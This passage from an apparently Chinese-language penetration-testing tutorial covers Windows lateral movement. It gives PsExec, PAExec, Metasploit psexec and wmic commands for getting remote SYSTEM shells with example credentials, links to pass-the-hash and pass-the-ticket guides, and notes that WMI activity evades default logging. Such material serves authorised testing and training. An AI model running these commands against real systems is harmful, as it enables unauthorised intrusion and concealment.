 ```


```

### 5.3 哈希传递攻击分析

参考链接:[Mimikatz 使用大全](https://www.cnblogs.com/-mo-/p/11890232.html)

### 5.4 票据传递攻击分析

参考链接:[MS14-068 复现 (CVE-2014-6324)](https://www.cnblogs.com/-mo-/p/11890539.html)

### 5.5 PsExec 的使用

在建立了 IPC$ 的情况下，执行如下命令，获取 System 权限的 Shell

```
PsExec.exe -accepteula \\\\192.168.100.190 -s cmd.exe

#如果暂时没有建立IPC$连接的话，可以用-u,-p参数进行建立
PsExec.exe -accepteula \\\\192.168.100.190 -u administrator -p 123456 cmd.exe /c "ipconfig"   #回显执行


```

```
#MSF中的psexec模块
exploit/windows/smb/psexec
exploit/windows/smb/psexec\_psh(Powershell版本,混淆)


```

在 webshell 的环境下，psexec 如果是在目标环境第一次运行的话，有可能会因为程序的 UAC，出现无法使用的情况，此时可尝试使用 paexec 进行横向渗透:

```
PAExec \\\\{server IP address} -s cmd.exe
PAExec \\\\{server IP address} ipconfig
PAExec \\\\{server IP address} -u {username} -p {password} -i -c MyApp.exe


```

[PAExec 下载链接](https://www2.poweradmin.com/paexec/paexec.exe)

### 5.6 WMI 的使用

wmi 的命令没有回显，但其操作默认不会记录在日志中，需要借助 ipc$ 和 type 命令来读取信息

```
#远程执行wmic命令，目标服务器需开启135端口
wmic /node:172.16.1.1 /user:administrator /password:123456 process call create "cmd.exe /c ipconfig >ip.txt"
type \\\\192.168.100.190\\C$\\ip.txt


```
